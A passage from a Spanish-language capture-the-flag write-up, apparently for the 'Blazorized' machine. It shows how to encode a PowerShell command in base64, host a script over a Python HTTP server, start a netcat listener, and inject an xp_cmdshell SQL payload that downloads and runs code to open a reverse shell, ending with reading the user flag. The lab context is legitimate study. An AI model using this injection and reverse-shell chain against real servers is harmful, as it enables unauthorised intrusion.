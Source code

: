 y la vamos a guardar en el archivo script.ps1

ahora, vamos a convertir el comando a base64 ejecutable tambien:
```bash
cat comando | iconv -t utf-16le | base64 -w0; echo
```
lo convertirá a little endian utf-16 que es el tipo de codificación en base64 que se usa para que powershell pueda ejecutarlo directamente

ya con todo esto, vamos a montar nuestro servidor de python en el directorio donde se encuentra nuestro script.ps1 y tambien vamos a levantar a nc con rlwrap en el puerto indicado:
```bash
python3 -m http.server 80
```
```
rlwrap nc -lnvp 9001
```

ahora, vamos a ejecutar en el buscador vulnerable el comando de descarga/ejecucion:

```
'; EXEC xp_cmdshell 'powershell -e SQB....';-- -
```
y: 
<img src="/images/writeup-blazorized/31.png">

vamos a ir al directorio del usuario que somo actualmente, y allí tendremos la primera flag de usuario:
```powershell
cd C:\Users\nu_105\Desktop
type user.txt
```
